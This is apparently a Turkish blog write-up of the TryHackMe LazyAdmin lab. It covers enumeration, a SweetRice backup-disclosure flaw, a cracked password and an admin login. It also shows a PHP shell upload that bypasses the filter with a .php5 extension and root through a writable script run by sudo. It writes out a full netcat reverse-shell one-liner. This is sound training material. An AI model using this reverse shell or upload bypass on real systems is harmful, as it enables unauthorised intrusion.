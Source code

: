 ```yaml
---
title: "TryHackMe LayzAdmin WriteUp"
header:
 
categories:
   - CTF
   - TryHackMe
tag:
   -TryHackMe
---
```


Selamlar bu yazımda TryHackMe'de bulunan LayzAdmin makinesinin çözümünden bahsedeceğim. Umarım öğretici bir yazı olur, keyifli okumalar.

## Nmap

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/nmap.png){: .align-center}

Dirb ile hidden directory tespit etmeye çalıştığımda content ve content/as isimli iki adet dizini tespit ettim.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/dirb.png){: .align-center}

hedefIP/content sayfasını ziyaret ettiğimde management system olarak SweetRice kullanıldığı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweet.png){: .align-center}

SweetRice hakkında zafiyet araştırması yapıldığında ise birden fazla çıktı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweetRice.png){: .align-center}

SweetRice 1.5.1 - Backup Disclosure zafiyeti “http://localhost/inc/mysql_backup" end pointinde yedeklerin disclosure olduğunu gördüm.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backup.png){: .align-center}

Backup dosyası içerisinde bir kullanıcı adı ve hashlenmiş haldeki parolayı buldum. Hash’i CrackStation kullanarak kırdığımda parolaya ulaştım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/crackstation.png){: .align-center}

/content/as sayfası SweetRice'ın login sayfasıdır. Elde edilen kimlik bilgileri ile giriş yapıldıktan sonra potansiyel güvenlik zafiyetleri araştırılmaktadır. Tema sekmesinde reverse shell include edilerek hedef sistemde erişim hedeflenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/contentas.png){: .align-center}

Fakat yüklenilen dosyaya erişilememektedir. Bu yüzden farklı bir giriş noktası olan MediaCenter sekmesi ziyaret edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/mediacenter.png){: .align-center}

.php uzantılı shell yüklendiğinde sistem kabul etmemektedir fakat .php5 olarak uzantısı değiştirip yüklendiğinde sistem kabul etmektedir. Saldırı makinesinde ilgili port dinlenerek exploit tetiklenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/netcat.png){: .align-center}

User.txt

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/userflag.png){: .align-center}

Yetki yükseltmek için "sudo -l" yapıldığında perl ve backup.pl dosyalarının super user yetkileri ile çalışabildiği görüntülenmektedir. Ek olarak SUID bitleri incelendiğinde herhangi bir şey tespit edilememektedir.

backup.pl dosyası /etc/copy.sh dosyasını yürütmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backupl.png){: .align-center}

copy.sh dosyası incelendiğinde ise dosya üzerinde değişiklik yapabilme (yazma) yetkisine sahip olunduğu gözlemlenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/copysh.png){: .align-center}

copy.sh dosyasının içeriğini “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.63.80 1235 >/tmp/f”  ile değiştirilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/echo.png){: .align-center}

"sudo -l" çıktısında görüntülenen backup.pl dosyası super user yetkileriyle çalışmaktadır ve içeriği değiştirilen, root yetkilerine erişmeye yardımcı dosyayı çalıştırmaktadır. İlgili port dinlenerek backup.pl dosyası çalıştırılmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sudo.png){: .align-center}

Sonuç olarak yetki yükseltme gerçekleşmektedir ve root.txt dosyasının içeriği elde edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/rootflag.png){: .align-center}
